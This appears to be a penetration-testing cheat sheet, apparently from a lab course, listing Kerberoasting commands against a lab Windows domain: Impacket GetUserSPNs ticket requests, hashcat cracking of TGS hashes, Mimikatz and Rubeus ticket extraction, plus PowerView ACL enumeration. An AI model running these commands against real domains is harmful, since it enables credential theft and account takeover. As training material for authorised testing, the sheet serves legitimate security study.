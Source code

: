`Find-InterestingDomainAcl`



<span style="color:#33FFE3">KERBEROASTING</span>  
# Kerberoasting

Impacket tool used to get a list of `SPNs` on the target Windows domain from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday`

Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (`-outputfile sqldev_tgs`) linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs`

Attempts to crack the Kerberos (`-m 13100`) ticket hash (`sqldev_tgs`) using `hashcat` and a wordlist (`rockyou.txt`) from a Linux-based host.

`hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force`

`Mimikatz` command that ensures TGS tickets are extracted in `base64` format from a Windows-based host.

`mimikatz # base64 /out:true`

`Mimikatz` command used to extract the TGS tickets from a Windows-based host.

`kerberos::list /export`

Uses PowerView tool to extract `TGS Tickets` . Performed from a Windows-based host.

`Import-Module .\PowerView.ps1 Get-DomainUser * -spn | select samaccountname`

Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host.

`.\Rubeus.exe`

Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host.

`.\Rubeus.exe kerberoast /stats`

Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host.

`.\Rubeus.exe kerberoast /user:testspn /nowrap`



<span style="color:#33FFE3">ACL</span>  
# ACL enumeration

PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host.

`Find-InterestingDomainAcl`
